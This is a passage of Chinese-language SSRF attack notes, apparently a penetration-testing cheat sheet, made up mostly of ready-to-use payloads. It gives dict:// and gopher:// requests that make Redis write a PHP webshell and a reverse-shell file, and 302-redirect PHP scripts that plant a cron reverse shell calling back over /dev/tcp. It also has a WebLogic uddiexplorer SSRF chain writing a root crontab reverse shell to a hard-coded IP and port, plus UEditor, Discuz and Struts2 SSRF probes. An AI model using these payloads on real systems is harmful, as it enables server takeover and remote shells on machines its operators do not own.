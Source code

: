 	获取webshell
	url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
	url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
	url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
	url=dict://127.0.0.1:6379/SAVE

	获取php反向shell
	gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
	gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
	gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
	gopher://127.0.0.1:6379/_save
  ##### 302反弹shell
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=flushall
	302.php
	<?php
	$ip = $_GET['ip'];
	$port = $_GET['port'];
	$scheme = $_GET['s'];
	$data = $_GET['data'];
	header("Location: $scheme://$ip:$port/$data");
	?>
	?url=http://xxxx/reverse.php?s=dict&ip=10.20.*.*&port=6379&bhost=*.*.*.*&bport=1234
	reverse.php
	<?php
	$ip = $_GET['ip'];
	$port = $_GET['port'];
	$bhost = $_GET['bhost'];
	$bport = $_GET['bport'];
	$scheme = $_GET['s'];
	header("Location: $scheme://$ip:$port/set:0:\"\\x0a\\x0a*/1\\x20*\\x20*\\x20*\\x20*\\x20/bin/bash\\x20-i\\x20>\\x26\\x20/dev/tcp/{$bhost}/{$bport}\\x200>\\x261\\x0a\\x0a\\x0a\"");
	?>
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=config:set:dir:/var/spool/cron/
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=config:set:dbfilename:root
	?url=http://xxxx/302.php?s=dict&ip=10.20.*.*&port=6379&data=save
	可设置burp–>intruder指定变量跑。
  ##### Mysql
	https://github.com/FoolMitAh/mysql_gopher_attack
	https://fireshellsecurity.team/isitdtu-friss/
  ##### Weblogic SSRF+Redis
	探测
	/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://127.0.0.1:80
	Redis反弹
	set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/121.36.67.230/4444 0>&1\n\n\n\n"
	config set dir /etc/
	config set dbfilename crontab
	save
	/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://192.168.0.110:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F121.36.67.230%2F4444%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
	SSRF+内网Struct2
	http://www.xx.com/ssrf.php?url=http://10.1.1.1/action?action?redirect:http://attackerip/
  ##### Ueditor SSRF
	/editor/ueditor/php/controller.php?action=catchimage&source[]=http://my.ip/?aaa=1%26logo.png
  ##### Discuz
	/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
  ##### 探测存活主机